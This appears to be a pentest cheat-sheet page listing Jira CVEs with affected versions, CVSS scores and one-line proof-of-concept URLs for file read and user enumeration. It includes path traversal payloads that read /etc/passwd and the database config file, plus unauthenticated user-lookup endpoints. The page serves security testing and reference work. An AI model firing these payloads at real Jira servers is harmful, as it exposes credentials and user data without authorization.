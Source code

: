 **CVE-2021-26085**

**Version**: `< 7.4.10`, `7.5.0 <= x < 7.12.3` (Jira version) **CVSS 3.x**: `5.3 MEDIUM AV:N/AC:L/PR:N/UI:N/S:U/C:L/I:N/A:N` **Privileges Required**: `None` **POC**: `https://github.com/ColdFusionX/CVE-2021-26085`

**CVE-2021–26086**

**Version**: `< 8.5.14`, `8.6.0 <= x < 8.13.6`, `8.14.0 <= x < 8.16.1` (Jira version) **CVSS 3.x**: `5.3 MEDIUM AV:N/AC:L/PR:N/UI:N/S:U/C:L/I:N/A:N` **Privileges Required**: `None` **POC**:

Copy

```
https://github.com/ColdFusionX/CVE-2021-26086
https://www.cloudsek.com/threatintelligence/jira-software-server-cve-2021-26086-vulnerability-actively-exploited-in-the-wild
```

**CVE-2023-26255**

**Version**: `< 2.0.52` ("STAGIL Navigation for Jira - Menu & Themes" plugin) **CVSS 3.x**: `7.5 HIGH AV:N/AC:L/PR:N/UI:N/S:U/C:H/I:N/A:N` **Privileges Required**: `None` **POC**: `https://<JIRA>/plugins/servlet/snjCustomDesignConfig?fileName=../dbconfig.xmlpasswd&fileMime=$textMime`

**CVE-2023-26256**

**Version**: `< 2.0.52` ("STAGIL Navigation for Jira - Menu & Themes" plugin) **CVSS 3.x**: `7.5 HIGH AV:N/AC:L/PR:N/UI:N/S:U/C:H/I:N/A:N` **Privileges Required**: `None` **POC**: `https://<JIRA>/plugins/servlet/snjFooterNavigationConfig?fileName=../../../../etc/passwd&fileMime=$textMime`

***

#### User Enumeration <a href="#user-enumeration" id="user-enumeration"></a>

**CVE-2019-3403**

**Version**: `< 7.13.3`, `8.0.0 <= x < 8.0.4`, `8.1.0 <= x < 8.1.1` (Jira version) **CVSS 3.x**: `5.3 MEDIUM AV:N/AC:L/PR:N/UI:N/S:U/C:L/I:N/A:N` **Privileges Required**: `None` **POC**: `https://<JIRA>/rest/api/2/user/picker?query=<user_name_here>`

**CVE-2020-14181**

**Version**: `< 7.13.6`, `8.0.0 <= x < 8.5.7`, `8.6.0 <= x < 8.12.0` (Jira version) **CVSS 3.x**: `5.3 MEDIUM AV:N/AC:L/PR:N/UI:N/S:U/C:L/I:N/A:N` **Privileges Required**: `None` **POC**: `https://<JIRA>/secure/ViewUserHover.jspa?username=<uname>`

**CVE-2020-36289**

**Version**: `< 8.15.13`, `8.6.0 <= x < 8.13.5`, `8.14.0 <= x < 8.15.1` (Jira version) **CVSS 3.x**: `5.3 MEDIUM AV:N/AC:L/PR:N/UI:N/S:U/C:L/I:N/A:N` **Privileges Required**: `None` **POC**: `https://<JIRA>/secure/QueryComponentRendererValue!Default.jspa?assignee=user:admin`

**CVE-2021-39127**

**Version**: `< 8.5.10`, `8.6.0 <= x < 8.13.1` (Jira version) **CVSS 3.x**: `5.3 MEDIUM AV:N/AC:L/PR:N/UI:N/S:U/C:N/I:L/A:N` **Privileges Required**: `None` **Explanation**: There are other things which can be enumerated and extracted via JQL, not only usernames!!! **POC**: `https://<JIRA>/secure/QueryComponent!Jql.jspa?jql=creator=<username>`

